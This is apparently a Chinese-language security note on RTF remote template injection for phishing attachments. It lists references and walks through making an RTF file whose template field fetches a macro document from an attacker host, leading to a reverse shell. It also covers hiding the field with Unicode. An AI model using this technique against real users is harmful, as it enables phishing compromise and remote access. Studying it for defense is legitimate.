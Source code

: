 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 钓鱼
tags:
  - 钓鱼附件
  - Office
  - RTF
  - 模板注入
---
```


# RTF注入Office模板

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [黑客越来越多地使用RTF模板注入技术进行网络钓鱼攻击 - 哈客部落 (hake.cc)](https://www.hake.cc/page/article/611.html)
>
> [【钓鱼从入门到放弃】-RTF文档 (atsud0.me)](https://atsud0.me/2022/01/【钓鱼从入门到放弃】-RTF文档/#CVE-2017-8570)
>
> [奇安信威胁情报中心 (qianxin.com)](https://ti.qianxin.com/blog/articles/Analysis-of-the-Donot-group's-attack-campaign-using-RTF-template-injection-against-the-neighbourhood/)
>
> ---
>
> [Decodificando ficheros RTF maliciosos (ciberseguridad.blog)](https://ciberseguridad.blog/decodificando-ficheros-rtf-maliciosos/)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)
>
> [RTF Template Injection: Phishing Attachment Techniques | Proofpoint US](https://www.proofpoint.com/us/blog/threat-insight/injection-new-black-novel-rtf-template-inject-technique-poised-widespread)
>
> ---
>
> [RTF sample which belongs to APT-C-35 group (only 4 detections in VT)](https://x.com/IntezerLabs/status/1389210529802170370?ref=ciberseguridad.blog)
>
> ---
>
> [富文本格式 (RTF) 1.5 版规范 --- Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

RTF是富文本格式(Rich Text Format)又称多文本格式, 是由微软公司开发的跨平台文档格式

大多数的文字处理软件都能读取和保存RTF文档

RTF文档支持 `template` 参数, 可以指定目的模板路径来加载模板

![image-20240611163233113](http://cdn.ayusummer233.top/DailyNotes/202406121124421.png)

---

使用 Office Word 新建一个文档然后保存为 RTF 文档

![image-20240611111848392](http://cdn.ayusummer233.top/DailyNotes/202406121124431.png)

![image-20240611112041230](http://cdn.ayusummer233.top/DailyNotes/202406121124434.png)

使用文本编辑器打开此 RTF 文档

```
{\*\template http://100.1.1.131:8000/download/VBA_PowerShell.docm}
```

![image-20240611141220417](http://cdn.ayusummer233.top/DailyNotes/202406121124425.png)

![image-20240611151608170](http://cdn.ayusummer233.top/DailyNotes/202406121124391.png)

> 这样下载文件特别慢(

等待下载完执行即可达成反弹shell

![image-20240611151622885](http://cdn.ayusummer233.top/DailyNotes/202406121124429.png)

---

> [Office RTF远程模板注入 - Bl0od - 博客园 (cnblogs.com)](https://www.cnblogs.com/zUotTe0/p/15659420.html)
>
> [Rich Text Format (RTF) Version 1.5 Specification (biblioscape.com)](https://www.biblioscape.com/rtf15_spec.htm)

`*\template` 字段参数值可以为Unicode，可以更好隐藏自身

![image-20240612102526403](http://cdn.ayusummer233.top/DailyNotes/202406121124843.png)

![image-20240612112445656](http://cdn.ayusummer233.top/DailyNotes/202406121124781.png)

---

